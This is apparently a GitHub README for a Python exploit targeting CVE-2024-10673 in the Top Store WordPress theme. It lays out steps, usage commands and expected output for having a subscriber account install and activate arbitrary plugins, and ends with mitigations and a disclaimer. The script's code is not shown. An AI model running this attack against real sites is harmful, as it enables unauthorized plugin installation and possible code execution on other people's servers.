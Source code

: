 

## 🔥 Overview
This script exploits **CVE-2024-10673**, a critical vulnerability found in the **Top Store WordPress Theme (<= 1.5.4)**. The flaw allows **authenticated users with subscriber-level access or higher** to install and activate arbitrary plugins via unprotected AJAX requests.

## ⚠️ Severity & Impact
- **Unauthenticated Plugin Installation**: Attackers with **subscriber privileges** can install plugins without admin approval.
- **Remote Code Execution (RCE) Possibility**: If a malicious plugin is installed, attackers may execute arbitrary code.
- **Privilege Escalation**: Attackers can install plugins that grant them administrative access.

## 🛠️ Features of This Exploit
- **Automates the attack** by extracting the required `nonce` dynamically.
- **Allows plugin selection** (users can specify which plugin to install and activate).
- **Supports JSON-formatted responses** for structured logging.
- **Handles errors gracefully**, ensuring robust execution.

## ⚡ How the Exploit Works
1. **Login to WordPress** using valid credentials.
2. **Extract the AJAX nonce** from `themes.php?page=thunk_started`.
3. **Send an AJAX request to install a plugin** (default: `hunk-companion` or user-defined plugin).
4. **Send another request to activate the plugin.**
5. **Output JSON responses** indicating success or failure.

## 🚀 Usage
```bash
usage: u.py [-h] -u URL -un USERNAME -p PASSWORD [-pl PLUGIN]

Exploit CVE-2024-10673 - WordPress Plugin Installation & Activation by : # By Nxploit | Khaled Alenazi

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target WordPress URL (e.g., http://192.168.100.74:888/wordpress)
  -un USERNAME, --username USERNAME
                        WordPress Username
  -p PASSWORD, --password PASSWORD
                        WordPress Password
  -pl PLUGIN, --plugin PLUGIN
                        Plugin slug to install and activate (default: hunk-companion)
```
### Examples
- **Install and activate the default plugin (`hunk-companion`)**:
  ```bash
  python exploit.py -u http://192.168.100.74:888/wordpress -un admin -p admin
  ```
- **Install and activate a specific plugin (`woocommerce`)**:
  ```bash
  python CVE-2024-10673.py -u http://192.168.100.74:888/wordpress -un admin -p admin -pl woocommerce
  ```

## 📝 Expected Output
```json
{"Logged in successfully"}
{"Fetching nonce value..."}
{"Nonce extracted": "abc123"}
{"Installing plugin: woocommerce..."}
{"Plugin woocommerce installed successfully"}
{"Activating plugin: woocommerce..."}
{"Plugin woocommerce activated successfully"}
{"Exploit completed successfully!"}
```

## 🔒 Mitigation
To secure your WordPress site:
- **Update to a patched version** of the Top Store theme.
- **Restrict subscriber permissions** to prevent unnecessary access.
- **Monitor installed plugins** for unauthorized changes.
- **Disable plugin installation** for non-administrators.

## ⚠️ Disclaimer
**This script is for educational and security research purposes only.** Unauthorized use against systems you do not own or have explicit permission to test is illegal. Use responsibly!

*By: Khaled Alenazi (Nxploit)*
